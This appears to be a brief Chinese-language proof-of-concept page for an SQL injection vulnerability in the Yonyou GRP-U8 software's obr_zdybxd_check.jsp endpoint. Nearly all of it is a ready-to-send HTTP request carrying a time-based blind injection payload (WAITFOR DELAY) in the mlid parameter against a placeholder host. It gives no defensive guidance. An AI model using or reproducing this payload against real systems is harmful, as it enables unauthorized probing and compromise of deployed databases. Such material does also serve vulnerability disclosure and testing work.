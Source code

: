 ## 用友GRP-U8-obr_zdybxd_check存在sql注入漏洞

## poc
```
GET /u8qx/obr_zdybxd_check.jsp?mlid=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![fa7a791ea47812cbec3d99f5b37fd7bb](../../images/8bee3c88-ed03-4c91-9935-63e6dc34b5cd.png)

